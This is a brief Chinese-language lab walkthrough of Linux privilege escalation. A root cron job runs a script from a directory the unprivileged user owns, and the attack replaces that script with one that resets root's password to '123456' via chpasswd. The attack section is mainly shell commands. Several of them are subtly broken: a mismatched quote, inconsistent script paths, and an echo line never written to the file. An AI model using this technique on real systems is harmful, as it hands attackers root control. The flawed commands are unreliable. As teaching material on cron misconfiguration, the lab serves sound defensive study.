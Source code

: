 # 环境准备

**1.root账户配置如下命令：**

```shell
groupadd aplyc1a
useradd -d /home/aplyc1a -m aplyc1a -g aplyc1a -s /bin/bash -p 123456
mkdir -p ~aplyc1a/escal
chown aplyc1a:aplyc1a ~aplyc1a/escal
chmod a+x ~aplyc1a/escal
```

**2.环境内本身有一定时任务：**

root账户定时检查aplyc1a家目录下的文件是否被篡改。

```text
echo '#!/bin/bash' >> ~aplyc1a/escal/.hourlychk.sh
echo "find ~aplyc1a -user root -type f -exec md5sum {}\;"
chmod 744 ~aplyc1a/.escal/hourlychk.sh
echo "* */1 * * * root /home/aplyc1a/escal/.hourlychk.sh" >> /etc/crontab
```

# 攻击实施

由于.hourlychk.sh所在的目录/home/aplyc1a/escal/属主属组是aplyc1a，换句话来说完全可控，因此攻击者获得aplyc1a账户后，可以删除/home/aplyc1a/escal/目录，再重新创建一个新的目录及对应的~aplyc1a/escal/.hourlychk.sh，内部写入恶意命令：


```shell
echo '#!/bin/bash' >> ~aplyc1a/escal/.hourlychk.sh
echo "echo \root:123456\" | chpasswd" >> ~aplyc1a/escal/.hourlychk.sh
chmod a+x ~aplyc1a/escal/.hourlychk.sh
```
